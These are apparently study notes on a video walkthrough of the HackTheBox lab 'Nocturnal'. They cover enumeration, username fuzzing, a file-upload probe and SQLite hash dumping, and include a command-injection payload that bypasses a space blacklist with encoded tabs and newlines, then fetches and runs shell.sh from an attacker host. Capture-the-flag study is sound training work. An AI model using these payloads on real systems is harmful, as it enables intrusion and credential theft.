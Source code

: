 - https://www.youtube.com/watch?v=tjA3sXsnPqw
- dir enum: `gobuster dir -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -x php -u http://nocturnal.htb`
- *thought that maybe he can find a way to enumerate valid usernames through the login form by using the error message.*
- *gets the valid file types error by uploading a random file.*

- php payload (proof of concept) for the file upload functionality:

```php
<?php phpinfo(); ?>
```

- the files are stored in a database so maybe we can use [[SQL Injection]] for [file disclosure](https://medium.com/@julius.grosserode.19/local-file-disclosure-743f88291211).

to find every wordlist for usernames:
```bash
cd /opt/SecLists/
find . | grep -i username
```

- Burp Suite -> copy the request file with `username=FUZZ` -> saved it as `view.req` ->
  `ffuf -w /opt/SecLists/Usernames/xato-net-10-million-usernames.txt -request view.req -request-proto http -fs 2985`
- Burp Suite -> Copy as curl command (bash)
	- pasted the command and saved the output to `privacy.odt`
	- removed the headers of the response so he can open the file.

- *gets creds for "amanda", logs in, gets access to the source code of `admin.php`*
- found the command injection vulnerability in the `password` parameter
- "but if we have a process open we can use line breaks" - for bypassing the blacklist
- `$IFS` - internal field separator, it tells the shell what characters should be used for splitting words (like `\n`,`\t`,` `)
- IppSec used <u>tabs</u> because the <u>space</u> character is blacklisted. 
	- encoded a new line to using burp suite's url encoding feature and the result is: `%0d%0a`
	- same for the <u>tab</u>: `%09`
- payload:
```bash
password=PleaseSubscribe"%0acurl    -o    /dev/shm/shell.sh    http://10.10.14.8:8000/shell.sh%abash    /dev/shm/shell.sh%0a&backup= 
```

- shell stabilization:
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'

# CTRL+Z to suspend the process

stty raw -echo;fg
export term=XTERM
stty rows 26 cols 121
```

- `ssty` is a command utility used for change the terminal line settings.
	- `raw` - `CTRL+C` won't send SIGINT, `CTRL+Z` won't suspend the process.
	- `-echo` - typed characters are not shown on the screen, useful for things like password input.

- `export term=XTERM` - to change the terminal emulator. You can now clear the terminal with `CTRL+L`

- searched for the database so he can extract the credentials. A great way to find the database file is in the `login.php` or `register.php`

```bash
sqlite3 nocturnal_database.db
#in the sql prompt he used '.dump'

sqlite3 nocturnal_database.db "select password from users";
```

- found all the hashes (32-character hexadecimal strings, usually MD5) and pasted them in [crackstation.net](https://crackstation.net/)
- `su - tobias` - switched to user `tobias` and loads the the user's environment variables like `HOME=/home/tobias`, `USER=tobias`, etc.
- checked `sudo -l`
- `ss -lntp`, show open ports in listening state
- `curl -I 127.0.0.1:8080` - get headers of the response.
- cd' into `/etc`, then `grep -R 8080 2>/dev/null` to get more info on the service running on port 8080
- in an OpenSSH session after pressing `Enter`: you can use `~C` to enter the SSH prompt. You must have the `EnableEscapeCommandline=yes` option in `/etc/ssh/ssh_config` or you can pass it inline: `ssh -o EnableEscapeCommandline=yes user@host`
- SSH port forwarding (tunneling) `ssh> -L 8081:127.0.0.1:8080`